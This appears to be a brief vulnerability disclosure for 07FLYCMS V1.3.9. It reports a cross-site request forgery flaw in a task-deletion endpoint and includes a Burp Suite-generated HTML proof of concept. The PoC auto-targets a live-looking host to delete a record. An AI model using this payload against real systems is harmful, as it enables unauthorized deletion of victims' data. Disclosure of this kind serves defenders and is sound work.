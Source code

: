 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaTask/del.html?id=27

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaTask/del.html?id=27" method="POST">
      <input type="hidden" name="id" value="27" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

